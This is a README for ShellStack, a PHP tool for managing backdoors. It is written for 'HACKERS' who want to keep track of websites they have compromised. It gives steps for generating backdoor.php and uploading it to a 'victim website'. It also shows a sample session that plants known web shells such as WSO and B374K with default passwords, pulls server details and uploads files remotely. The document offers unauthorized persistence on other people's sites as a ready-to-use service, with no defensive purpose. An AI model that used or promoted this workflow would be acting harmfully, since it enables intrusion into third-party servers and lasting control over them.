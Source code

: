 # ShellStack 
#### Version 1.0
#### Coded By R3D#@X0R_2H1N A.K.A Tuhinshubhra
----
ShellStack is a PHP based backdoor management tool. This Tool comes handy for "HACKERS" who wish to keep a track of every website they hack. The tool generates a backdoor file which you just have to upload to the site and put the backdoor URL in the shells.txt present in the tool's directory.

# With ShellStack You can
- Import PHP Shells
- Get Server Details
- Upload Files From Your System using your terminal
- And Above all You Can Manage Your Backdoors Efficiently

# How To Use
1. `git clone https://github.com/Tuhinshubhra/shellstack`
2. `cd shellstack`
3. `php shellstack.php`
4. `generatebd` and exit the tool use `CTRL + C` - This will generate a backdoor file in the same directory as of the tool in a file named **backdoor.php**
5. Upload The Backdoor File To The Victim website
6. Copy The Backdoor URL and paste it in the **shells.txt** file present in the tool's directory and save it (*Each backdoor is separated by a new line*)
7. `php shellstack.php`
8. Enter The **Serial No** Assigned To The Backdoor
9. Rest is pretty Self explanatory

# Requirements
``` 
php
curl 
```
# Example
```
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# php shellstack.php


________________________________________________________________________________
_______ _     _ _______               _______ _______ _______ _______ _     _
|______ |_____| |______ |      |      |______    |    |_____| |       |____/
______| |     | |______ |_____ |_____ ______|    |    |     | |_____  |    \_
________________________________________________________________________________

                    Simple Backdoor Management System
                    Coded By R3D#@x0R_2H1N A.K.A Tuhinshubhra 
                    Shout Out: LulZSec India  
================================================================================



List Of Backdoors:

0. http://localhost/backdoor.php
=============================================

[#] Enter Either Of These (Backdoor No.|help|generatebd) : 0

[+] Shell Selected: http://localhost/backdoor.php
[+] Validating Backdoor: Backdoor Found!

List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):2

[+] Server Info
[i] Sending Request And Getting Response...
[i] Server: Linux R3D_MACH1N3 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (2017-06-06) x86_64
[i] Server IP: 127.0.0.1


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):1


List Of Shells
===============
[1] Dhanush shell {User & Pass : shellstack123}
[2] B374K shell {Pass : shellstack123}
[3] Kurama shell V.1.0 {Pass : red}
[4] WSO shell {Pass : shellstack123}
[5] MiNi shell {User & Pass : shellstack123}

[#] Select Shell To Import(1-5):1


[i] Importing Shell...
[i] Sending Request And Getting Response...
[R] Dhanush Shell Imported Successfully To /var/www/html/dhanush.php


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):5
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# 

```
# Release(s)
> Version 1.0 On 15-06-2017

# screenshots

![Alt text](http://oi68.tinypic.com/2mybzo3.jpg "Screenshot")
![Alt text](http://oi64.tinypic.com/2yycs1t.jpg "Screenshot")
